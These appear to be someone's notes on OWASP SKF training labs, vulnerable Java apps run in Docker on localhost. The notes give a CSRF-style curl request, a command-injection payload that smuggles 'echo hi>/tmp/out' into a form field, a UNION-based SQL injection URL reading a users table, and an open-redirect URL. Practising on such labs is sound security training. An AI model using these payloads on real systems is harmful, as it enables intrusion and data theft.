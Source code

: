 ## blabla1337/owasp-skf-lab:java-csrf

```bash
docker run -p5000:5000 blabla1337/owasp-skf-lab:java-csrf
```

spring-boot
-> admin/admin -> src/main/resources/data.sql


```bash
curl 'http://localhost:5000/update' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: JSESSIONID=DA8353D048C3C8B90D33596A10B2B360' \
  --data-raw 'color=yellow2'
```

## blabla1337/owasp-skf-lab:java-cmd

docker run -p5000:5000 blabla1337/owasp-skf-lab:java-cmd

drop malicious payload in remote filesystem
```bash
curl 'http://localhost:5000/home' \
   -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQJEtZoqQ8I4ZmYVs' \
  --data-raw $'------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs\r\nContent-Disposition: form-data; name="size"\r\n\r\n1;echo hi>/tmp/out;\r\n------WebKitFormBoundaryQJEtZoqQ8I4ZmYVs--\r\n' \
```

## blabla1337/owasp-skf-lab:java-sqli

exploit
`http://localhost:5000/home/1%20union%20select%20*%20from%20users`

## blabla1337/owasp-skf-lab:java-url-redirection-harder

ZAProxy gave me:
`http://localhost:5000/redirect?newurl=https%3A%2F%2F7289221068653968432%252eowasp%252eorg`
